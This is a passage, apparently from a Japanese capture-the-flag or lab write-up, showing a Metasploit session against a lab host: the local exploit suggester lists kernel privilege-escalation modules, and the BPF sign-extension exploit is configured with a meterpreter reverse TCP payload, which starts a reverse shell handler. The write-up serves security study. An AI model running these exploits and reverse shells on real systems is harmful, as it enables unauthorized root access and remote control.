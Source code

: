 ```

[*] 10.10.10.56 - Collecting local exploits for x86/linux...
[*] 10.10.10.56 - 34 exploit checks are being tried...
[+] 10.10.10.56 - exploit/linux/local/bpf_sign_extension_priv_esc: The target appears to be vulnerable.
[+] 10.10.10.56 - exploit/linux/local/glibc_realpath_priv_esc: The target appears to be vulnerable.
[+] 10.10.10.56 - exploit/linux/local/pkexec: The service is running, but could not be validated.
[*] Post module execution completed
```

## suggestされたexploitを使う

```
msf5 post(multi/recon/local_exploit_suggester) > search exploit/linux/local/bpf_sign_extension_priv_esc

Matching Modules
================

   #  Name                                             Disclosure Date  Rank   Check  Description
   -  ----                                             ---------------  ----   -----  -----------
   0  exploit/linux/local/bpf_sign_extension_priv_esc  2017-11-12       great  Yes    Linux BPF Sign Extension Local Privilege Escalation


msf5 post(multi/recon/local_exploit_suggester) > use 0
msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > options

Module options (exploit/linux/local/bpf_sign_extension_priv_esc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMPILE  Auto             yes       Compile on target (Accepted: Auto, True, False)
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set session 1
session => 1
msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > run

[*] Started reverse TCP handler on 10.0.3.15:4444 
^C[-] Exploit failed [user-interrupt]: Interrupt 
[-] run: Interrupted
msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > options

Module options (exploit/linux/local/bpf_sign_extension_priv_esc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMPILE  Auto             yes       Compile on target (Accepted: Auto, True, False)
   SESSION  1                yes       The session to run this module on.


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
```